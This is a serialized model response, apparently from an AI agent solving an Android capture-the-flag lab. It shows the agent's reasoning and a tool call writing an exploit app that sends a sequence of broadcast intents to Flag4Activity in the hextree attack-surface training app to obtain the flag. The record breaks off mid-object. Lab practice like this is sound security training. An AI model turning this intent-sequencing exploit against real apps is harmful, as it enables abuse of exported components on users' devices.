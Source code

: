 GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=True, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="**My Analysis of the Updated PoC for Flag4Activity**\n\nOkay, let's break this down. First, the code, `MaliciousFlag4PoC.java`, seems sound in its intent. It's built to interact with `Flag4Activity`, targeting the correct package and activity and, critically, understands the required state transitions.  It knows to send `INIT_ACTION` to reset, then `PREPARE_ACTION`, `BUILD_ACTION`, and `GET_FLAG_ACTION` in the correct sequence. The really important addition here is the final, *empty* intent after the `GET_FLAG_ACTION`.\n\nMy threat modeling isn't really relevant here; I'm not looking at a broader threat landscape. This is purely about validating a Proof-of-Concept, and it's designed specifically to exercise the state machine in `Flag4Activity`.\n\nTracing the data flow is straightforward.  `INIT` resets the state to a known starting point. Then, following the sequence, it progresses through `PREPARE`, `BUILD`, and finally, `GET_FLAG`.  According to my understanding of the target code, being in the `GET_FLAG` state (which lines up with the `i == 4` condition in the `switch` statement), *any* incoming intent should trip the `success(this)` method. That empty intent is *supposed* to be the final straw that breaks the camel's back.\n\nI'm not bothering with security controls; that's not the goal here. It's about triggering a specific behavior in the target application.\n\nTherefore, my hypothesis is that this updated PoC, now that it includes the final trigger, should work. It follows the intended state transitions perfectly, and based on my analysis of `Flag4Activity.java`, the empty intent should be the missing piece.  I'm confident enough to write this updated PoC to a file and see if my analysis holds true in practice.\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n    private static final String INIT_ACTION = "INIT_ACTION"; // For resetting the state if needed\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");\n\n        // Optional: Reset state to INIT if it\'s not already, to ensure a clean run\n        Intent resetIntent = new Intent(INIT_ACTION);\n        resetIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(resetIntent);\n        Log.d("MaliciousFlag4PoC", "Sent reset intent (INIT_ACTION).");\n\n\n        // Step 1: Send PREPARE_ACTION\n        Intent prepareIntent = new Intent(PREPARE_ACTION);\n        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(prepareIntent);\n        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");\n\n        // Step 2: Send BUILD_ACTION\n        Intent buildIntent = new Intent(BUILD_ACTION);\n        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(buildIntent);\n        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");\n\n        // Step 3: Send GET_FLAG_ACTION\n        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(getFlagIntent);\n        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION.");\n\n        // Step 4: Send a final intent to trigger success(this) from GET_FLAG state\n        // Any intent will work here, let\'s re-send GET_FLAG_ACTION or an empty intent\n        Intent triggerSuccessIntent = new Intent(); // An empty intent is sufficient\n        triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        sendBroadcast(triggerSuccessIntent);\n        Log.d("MaliciousFlag4PoC", "Sent final trigger intent to get flag.");\n\n        Toast.makeText(this, "Exploit intents sent. Check logs for flag.", Toast.LENGTH_LONG).show();\n        finish(); // Close the malicious activity\n    }\n}'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=None, grounding_metadata=None, index=0, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='models/gemini-2.5-flash-preview-05-20', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=15591)], cached_content_token_count=15591, candidates_token_count=796, candidates_tokens_details=None, prompt_token_count=17668, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=17668)], thoughts_token_count=466, tool_use_prompt_token_count=None,